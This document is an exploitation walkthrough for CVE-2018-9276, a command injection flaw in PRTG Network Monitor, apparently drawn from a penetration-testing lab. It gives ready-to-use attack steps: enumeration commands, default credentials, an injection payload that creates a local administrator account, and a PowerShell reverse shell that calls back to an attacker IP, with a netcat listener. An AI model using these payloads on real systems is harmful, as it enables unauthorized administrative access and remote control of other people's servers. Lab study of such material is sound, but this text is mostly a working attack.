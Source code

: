 ## Introduction

This section details how to exploit PRTG Network Monitor, specifically focusing on CVE-2018-9276, an authenticated command injection vulnerability. The following steps guide the exploitation process:

---

## 1. Discovery and Enumeration

### Nmap Scan

Use Nmap to scan all TCP ports and identify service versions:

```bash
sudo nmap -sV -p- --open -T4 10.129.201.50
```

Look for port `8080` with "Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)."

### EyeWitness Scan

EyeWitness may reveal default credentials (`prtgadmin:prtgadmin`).

### cURL Version Check

Retrieve the PRTG version from the web page's source code:

```bash
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" | grep version
```

---

## 2. Exploiting CVE-2018-9276 (Authenticated Command Injection)

### Login

Attempt to log in with default or discovered credentials (`prtgadmin:Password123`).

### Navigate to Notifications

- Go to **Setup** -> **Account Settings** -> **Notifications** in the PRTG web interface.
    

### Add a New Notification

1. Click **Add new notification**.
    
2. Name the notification (e.g., `pwn`).
    
3. Scroll down and check **EXECUTE PROGRAM**.
    
4. In **Program File**, select `Demo exe notification - outfile.ps1`.
    
5. In the **Parameter** field, enter the command injection payload:
    

```plaintext
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
```

6. Click **Save**.
    

### Test Notification

- On the Notifications page, click the **Test** button for the newly created notification.
    
- A popup will say **EXE notification is queued up**.
    

---

## 3. Verification

### Using CrackMapExec (SMB)

Check if the new user has local admin access:

```bash
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG!
```

### Alternative Verification Methods

- Try logging in via **RDP**, **WinRM**, or using:
    
    - `evil-winrm`
        
    - `wmiexec.py`
        
    - `psexec.py` (from the Impacket toolkit)
        

---

## 4. Reverse Shell (Alternative Payload)

Instead of adding a user, execute a PowerShell reverse shell:

```plaintext
test.txt;powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Start Netcat Listener

On your attack machine:

```bash
nc -lvp 4444
```

---

## Key Points

- **Replace** `10.129.201.50` with the target IP address.
    
- **Modify** `10.10.14.15:4444` to match your attacker's IP and port.
    
- **Use semicolons (;)** to separate commands in the payload.
    
- **Ensure the target PRTG version is vulnerable** (before `18.2.39`).
    
- **PowerShell execution policies** may block scripts—consider bypass techniques.
    
- **Always test on systems where you have explicit permission.**